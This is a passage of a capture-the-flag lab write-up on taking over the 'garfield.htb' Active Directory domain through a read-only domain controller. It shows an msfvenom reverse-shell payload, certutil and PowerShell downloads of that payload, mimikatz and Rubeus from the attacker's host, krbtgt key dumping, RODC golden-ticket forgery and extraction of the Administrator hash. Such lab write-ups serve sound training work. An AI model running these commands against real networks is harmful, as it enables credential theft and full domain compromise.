
so with thatimpacket-psexec -k -no-pass -dc-ip 192.168.100.1 -target-ip 192.168.100.2 RODC01.garfield.htb

Now since we want to dump thekrb5tgt_8425 it would be better to gain an interactive shell since psexec doesn't work well with mimikatz and Rubeus , so we could do so using msfvenom
msfvenom -p windows/shell/reverse_tcp LHOST=192.168.100.1 LPORT=7777 -f exe > reverse_rodc01.exe
we used the LHOST as the DC01 host since the host RODC01 is in an internal network, now from the ligolo proxy lets add a listener to forward the port to our attack host
listener_add --addr 192.168.100.1:7777 --to 0.0.0.0:7777

now lets first transfer the .exe and then catch the listener
on theRDCO1 host
certutil.exe -urlcache -split -f "http://192.168.100.1:7777/reverse_rodc01.exe" reverse_rodc01.exe
After gaining persistence, we now need to transfer mimikatz and Rubeus , and also add Administrator to msDS-RevealOnDemandGroup and msDS-NeverRevealGroup so that we remove the block that prevented Administrator's credentials from being replicated to the RODC:
powershell -c "(New-Object System.Net.WebClient).DownloadFile('http://192.168.100.1:7777/mimikatz.exe','C:\Windows\Temp\mimikatz.exe')"
powershell -c "(New-Object System.Net.WebClient).DownloadFile('http://192.168.100.1:7777/Rubeus.exe','C:\Windows\Temp\Rubeus.exe')"
and then dump the krb5tgt_8425 ticket using mimikatz
C:\Windows\Temp\mimikatz.exe "privilege::debug" "lsadump::lsa /inject /name:krbtgt_8245" "exit"
The AES256 key for krbtgt_8245 is extracted: d6c93cbe006372adb8403630f9e86594f52c8105a52f9b21fef62e9c7a75e240
Forging the RODC golden ticket
Using Rubeus we can now form the Golden Ticket
Rubeus.exe golden /rodcNumber:8245 /aes256:d6c93cbe006372adb8403630f9e86594f52c8105a52f9b21fef62e9c7a75e240 /user:Administrator /id:500 /domain:garfield.htb /sid:S-1-5-21-2502726253-3859040611-225969357 /nowrap
[*] Forged a TGT for 'Administrator@garfield.htb'
[*] base64(ticket.kirbi): doIFkjCCBY6gAwIBBaED...
Then exchange the TGT to a TGS by using Rubeus asktgs /keylist so that we can use it to authenicate as the DC01 Administrator
Rubeus.exe asktgs /keyList /service:krbtgt/garfield.htb /dc:DC01.garfield.htb /ticket:<base64_ticket> /nowrap
```txt
[+] TGS request successful!
Password Hash : EE238F6DEBC752010428F20875B092D5
so now with that we have obtained the NTLM hash for Administrator , and now we could just evil-winrm

and thats itHappy Hacking